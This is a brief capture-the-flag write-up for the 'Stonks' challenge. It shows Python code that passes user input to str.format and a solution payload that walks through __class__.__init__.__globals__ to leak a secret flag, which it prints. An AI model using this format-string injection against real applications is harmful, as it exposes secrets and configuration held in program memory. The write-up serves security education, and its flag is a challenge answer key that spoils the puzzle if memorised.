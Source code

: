 # Stonks

## Task

```python
flag = open("flag.txt").read()

class stonkgenerator: # I heard object oriented programming is popular
    def __init__(self):
        pass
    def __str__(self):
        return "stonks"

def main():
    print(art)
    print("Welcome to Stonks as a Service!")
    print("Enter any input, and we'll say it back to you with any '{a}' replaced with 'stonks'! Try it out!")
    while True:
        inp = input("> ")
        print(inp.format(a=stonkgenerator()))

if __name__ == "__main__":
    main()
```

`nc chal.imaginaryctf.org 42014`

## Solution

we have the flag in globals and we don't have a blacklist,
so we can just use `{a.__class__.__init__}` to get a function
object, then we can just get the globals from that, which contains
our flag:

`{a.__class__.__init__.__globals__[flag]}`

and we get the flag string:

`ictf{c4r3rul_w1th_f0rmat_str1ngs_4a2bd219}`
